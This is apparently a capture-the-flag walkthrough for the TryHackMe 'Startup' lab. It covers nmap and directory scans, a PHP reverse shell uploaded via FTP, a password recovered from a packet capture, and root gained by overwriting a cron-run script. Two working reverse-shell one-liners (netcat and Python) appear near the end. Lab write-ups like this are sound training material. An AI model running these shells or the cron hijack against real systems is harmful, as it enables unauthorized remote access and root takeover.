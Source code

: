 # TryHackMe - Startup

## This outlines on how to pawn the TryHackMe Startup box

### Tools used: 
#### 1. Nmap
#### 2. Dirsearch
#### 3. Gobuster
#### 4. Wireshark
#### 5. Linpeas
#### 6. Pspy64

## Scanning and Enumeration

TryHackMe Startup IP: 10.10.x.x

1. Run 4 distinct Nmap scans

### **Half TCP Scan:**

```
nmap -sS -vv -T5 -Pn -p 1-20000 10.10.x.x -oN Half-TCP.txt
```

### **Version scan/Banner grabbing scan**

```
nmap -sV --version-all -vv -T5 -p 21,22,80 10.10.x.x -oN version-scan.txt 
```

### **Aggressive scan**

```
nmap -A -O --osscan-guess --osscan-limit -vv -T5 -oN aggressive-scan.txt
```

### **Nmap NSE vulnerability scan**

```
nmap --script vuln -p 21,22,80 10.10.x.x -oN nse_script_scan.txt
```

For the ports, it will differ depending on the Half TCP scan output  
Use the Nmap scan results to progress into the challenge

## Enumeration of the website

Website URL: http://10.10.x.x:80

After first visiting the website, your first instinct is to enumerate the target website for accessible directories and files.  
An instance of the Broken Access Control vulnerability of the OWASP Top 10 web vulnerabilities.

### **Dirsearch Directory Enumeration**:

```
dirsearch -u http://10.10.x.x -t 120
```

### **GoBuster Directory Enumeration**

```
gobuster dir -u http://10.10.x.x -w /path/to/directory-wordlist -X /path/to/file-wordlist
```

The two commands above will enumerate the entire website for accessible directories and files to be used throughout the CTF challenge.

For people who's gonna ask why I store the file extensions in a file, it's because it's easy to store them all in one file and I can make sure I don't miss out any file extension.

Whatever the output of these two commands for you, is what you will use and access

## Gaining Initial Foothold

If you properly enumerated the website in the previous step, you'd know that there is a FTP directory that connects the website and the FTP server

If you have the Kali Linux tool called **"Webshells"** installed then copy the Php reverse shell file and modify the listening IP and port.

**NOTE: IF YOU DON'T HAVE THE TOOL INSTALLED, THEN INSTALL IT USING THE COMMAND BELOW**

```
sudo apt install webshells
```

After modifying the file to have the listening IP and port, upload the file to the FTP server then execute the file.

Before running the Php reverse shell file, have a listener running on your Kali Linux box using the commands below:

```
nc -lvnp 9999
```

or

```
ncat -lvnp 9999
```

Change the port based on what port you have entered on the Php reverse shell file.

---  

After getting initial foothold on the system, your first instinct should be to find any suspicious files and directories

If you also enumerated properly, you would see a **"/incidents"** folder.  
Inside the folder you would see a .pcapng file, extract the file and use **Wireshark** on it.

```
python3 -m http.server 9999
```

Running the command above will start a Python http server and it will host the contents of the directory on the server.  
On your Kali Linux box, run the command below:

```
wget http://10.10.x.x:9999/suspicious.pcapng
```

Combining both of these commands, you first start a server then use the wget tool from your Kali Linux box to extract the .pcapng file.

## Wireshark Packet Analysis

After extracting the .pcapng file, run the command below:

```
wireshark suspicious.pcapng
```

Running the command will open the .pcapng file and it's up to you to analyze it.  
If you follow the TCP stream, you would see a password hidden there. Extract the password then login to SSH.

## SSH Login and Privilege Escalation

Using the credentials obtained from the packet file, login to SSH and extract the user.txt flag.

Assuming you have linpeas and pspy64 on your Kali Linux box, run the commands below on the directory to where the two tools are installed:

```
python3 -m http.server 9999
```

Use the wget on the target box to extract one or both tools.

```
wget http://10.10.x.x:9999/linpeas.sh
```

and

```
wget http://10.10.x.x/pspy
```

After getting the tools, add execute permissions to one or both files and execute it.

---

Most of the scan results are not that helpful except the ones from pspy64.  
Pspy64 will reveal cron jobs that are running on the box, if you analyze it carefully, you would see that root is executing a file per second/minute.

Go to the file location then modify the contents of that file to a one liner reverse shell.

You can choose from the two or use your own one liner reverse shell.


```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Save the contents of the file then set up a listener on your Kali Linux box then wait for the cron job to execute the file.

After a few seconds or minutes you should have a root reverse shell, if you do get a shell go to the **"/root"** directory the extract the root flag
